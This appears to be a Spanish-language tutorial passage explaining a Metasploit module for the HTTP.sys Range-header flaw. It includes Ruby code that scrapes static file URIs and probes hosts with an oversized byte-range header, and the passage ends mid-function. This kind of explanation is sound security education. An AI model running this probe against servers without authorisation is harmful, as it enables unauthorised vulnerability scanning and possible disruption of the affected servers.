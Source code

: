 ```ruby
def potential_static_files_uris
  uri = normalize_uri(target_uri.path)

  return [uri] unless uri[-1, 1] == '/'

  uris = ["#{uri}welcome.png"]
  res  = send_request_raw('uri' => uri, 'method' => 'GET')

  return uris unless res

  site_uri = URI.parse(full_uri)
  page     = Nokogiri::HTML(res.body.encode('UTF-8', invalid: :replace, undef: :replace))

  page.xpath('//link|//script|//style|//img').each do |tag|
    %w(href src).each do |attribute|
      attr_value = tag[attribute]

      next unless attr_value && !attr_value.empty?

      uri = site_uri.merge(URI::DEFAULT_PARSER.escape(attr_value.strip))

      next unless uri.host == vhost || uri.host == rhost

      uris << uri.path if uri.path =~ /\.[a-z]{2,}$/i # Only keep path with a file
    end
  end

  uris.uniq
end
```

8) **check_host**

Con esta función se evalúa si el servidor objetivo presenta la vulnerabilidad HTTP.sys aplicando los siguientes procedimientos:
- Primero obtiene una lista de posibles URIs de archivos estáticos usando la función anterior **potential_static_files_uris()**.
- Para cada URI potencial, se envía una solicitud HTTP raw con un encabezado Range que solicita un rango de bytes.
- Si la respuesta contiene **'Requested Range Not Satisfiable'**, se imprime un mensaje de estado indicando que el host es vulnerable y se actualiza target_uri.path con la URI vulnerable. Se devuelve Exploit::CheckCode::Vulnerable.
- Si la respuesta contiene **'The request has an invalid header name'**, se imprime un mensaje de estado indicando que el host es seguro y se devuelve **Exploit::CheckCode::Safe**.
- Si la respuesta no contiene ninguna de las cadenas anteriores, se imprime un mensaje de estado indicando que el estado es desconocido.
- Finalmente, si no se encontró ninguna URI vulnerable, se devuelve **Exploit::CheckCode::Unknown**.
```ruby
def check_host(ip)
  potential_static_files_uris.each do |potential_uri|
    uri = normalize_uri(potential_uri)

    res = send_request_raw(
      'uri' => uri,
      'method' => 'GET',
      'headers' => {
        'Range' => "bytes=0-#{upper_range}"
      }
    )

    vmessage = "#{peer} - Checking #{uri}"

    if res && res.body.include?('Requested Range Not Satisfiable')
```
